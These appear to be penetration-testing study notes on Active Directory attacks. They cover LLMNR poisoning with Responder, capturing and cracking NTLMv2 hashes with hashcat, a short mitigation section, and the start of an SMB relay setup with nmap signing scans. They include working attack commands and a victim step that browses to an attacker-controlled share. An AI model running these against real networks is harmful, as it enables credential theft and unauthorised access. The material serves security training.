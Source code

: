 # Introduction
Overview of how engagements are performed. Sending a laptop to the client and connecting to it via VPN.
# LLMNR
## LLMNR Poisoning Overview
```bash
# Run responder
sudo responder -I tun0 -dwPv # -I is the interface
```
Wait for an event to happen
Get the hash
User hashcat to crack it
```bash
hashcat -m 5600 hash.txt wordlist.txt -O # Run it on Host system, not VM
hashcat -m 5600 hash.txt wordlist.txt --show #If the hash has already been cracked
hashcat -m 5600 hash.txt wordlist.txt --force #If running the command in a VM and need to force the VM to run hashcat
hashcat -m 5600 hash.txt wordlist.txt -r OneRule # Run it with rules
```
## Capturing Hashes with Responder: Continuation to LLMNR Poisoning
Run responder
As the victim power the VM -> Login -> Open explorer -> Paste in the the explorer address ``\\attacker-ip`` -> Enter
Get the `NTLMv2` hash
## Cracking Our Captured Hashes: Continuation to LLMNR Poisoning
Copy hash into a file. Call it something like `hashes.txt`.
use hashcat or jonh the ripper.
Don't run the command from the virtual machine though, do it from the host. This will ensure that it uses the GPU.
## LLMNR Poisoning Mitigation
Disable LLMNR and NBT-NS through group policies.
If a company can't disable LLMNR and NBT-NS, then require Network Access Control. Require strong user passwords.
# SMB Relay
## SMB Relay Attacks Overview
Instead of cracking hashes, we relay the hashes to machines to potentially gain access.
**Requirements:**
1. SMB signing must be disabled or not enforced on the target. Usually not enabled or not enforced by default.
2. Relayed user credentials must be admin on machine for any real value.
Find hosts without SMB signing.
```bash
nmap --script=smb2-security-mode.nse -p445 ip-range/24
nmap --script=smb2-security-mode.nse -p445 ip-range/24 -Pn # If ping is blocked.
```
Make a targets file with the vulnerable IP addresses
```
ip-1
ip-2
ip-3
```
Change configurations to `responder` at `/etc/responder/Responder.conf` to turn off `SMB = Off` and `HTTP = Off`.